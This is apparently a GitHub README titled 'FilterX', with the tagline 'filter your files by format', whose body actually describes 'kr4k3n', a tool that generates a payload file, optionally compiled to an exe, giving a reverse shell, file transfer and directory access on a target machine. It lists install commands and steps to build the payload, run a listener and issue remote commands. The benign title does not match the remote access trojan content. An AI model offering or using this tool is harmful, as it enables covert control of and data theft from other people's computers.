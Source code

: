 # FilterX
Filter your files by format in Directory!

![download(1)](https://user-images.githubusercontent.com/56045160/115126114-d60eb480-9f9a-11eb-909d-df919b9a970c.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. 
Firstly, you can have access to target shell. 
Secondly, you can make file transfers between your and target machines. 
Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone https://github.com/YanOScompany/kr4k3n.git
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

